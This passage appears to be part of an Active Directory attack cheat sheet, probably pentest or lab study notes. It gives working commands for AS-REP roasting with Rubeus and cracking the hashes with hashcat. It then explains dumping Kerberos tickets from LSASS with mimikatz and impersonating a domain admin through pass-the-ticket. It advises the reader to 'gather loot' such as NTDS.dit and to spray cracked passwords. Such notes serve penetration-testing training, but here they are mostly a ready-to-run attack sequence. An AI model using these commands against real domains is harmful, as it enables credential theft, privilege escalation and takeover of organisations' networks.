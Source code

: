 *If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users.*

## AS-REP Roasting
*Very similar to Kerberoasting, AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.*

*Command to do AS-REP Roasting:*
`Rubeus.exe asreproast` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

*Copy the hash to a file and insert 23$ after \$krb5asrep$ so that the first line will be \$krb5asrep\$23$User....., and then crack the hash using hashcat:*
`hashcat -m 18200 hash.txt /path/to/wordlist` - Rubeus AS-REP Roasting uses hashcat mode 18200 

## Pass the Ticket w/ Mimikatz
*Pass the ticket works by dumping the TGT from the LSASS memory of the machine. The Local Security Authority Subsystem Service (LSASS) is a memory process that stores credentials on an active directory server and can store Kerberos ticket along with other credential types to act as the gatekeeper and accept or reject the credentials provided. You can dump the Kerberos Tickets from the LSASS memory just like you can dump hashes. When you dump the tickets with mimikatz it will give us a .kirbi ticket which can be used to gain domain admin if a domain admin ticket is in the LSASS memory. This attack is great for privilege escalation and lateral movement if there are unsecured domain service account tickets laying around. The attack allows you to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket using mimikatz PTT attack allowing you to act as that domain admin. You can think of a pass the ticket attack like reusing an existing ticket. We do not create or destroy any tickets here; we simply reuse an existing ticket from another user on the domain and impersonate that ticket.*

### Prepare Mimikatz & Dump Tickets
*On the victim machine, download [https://github.com/gentilkiwi/mimikatz](mimikatz.exe) and run:*
`mimikatz.exe`

*Then run:*
`privilege::debug` - Ensure this outputs [output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz

`sekurlsa::tickets /export` - this will export all of the .kirbi tickets into the directory that you are currently in

### Pass the Ticket
1. `kerberos::ptt <ticket>` - Run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket

2. Now exit out of mimikatz and run: 
`klist` - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets. 
